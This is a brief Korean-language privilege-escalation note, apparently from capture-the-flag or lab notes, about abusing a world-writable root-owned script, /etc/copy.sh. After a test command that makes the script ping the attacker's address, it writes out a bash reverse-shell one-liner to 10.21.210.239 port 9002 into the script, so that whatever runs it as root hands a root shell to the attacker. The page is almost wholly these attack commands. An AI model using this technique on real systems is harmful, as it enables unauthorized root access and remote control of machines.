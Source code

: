 

```bash
-rw-r--rwx 1 root root 81 Nov 29  2019 /etc/copy.sh
```

이렇게 생겨먹은 root 권한의 파일 내용 수정하는 방법



```bash
echo 'ping -c 1 10.21.210.239' > /etc/copy.sh
```


```bash title="reverse shell"
echo "bash -c 'exec bash -i &> /dev/tcp/10.21.210.239/9002 <&1'" > /etc/copy.sh
```

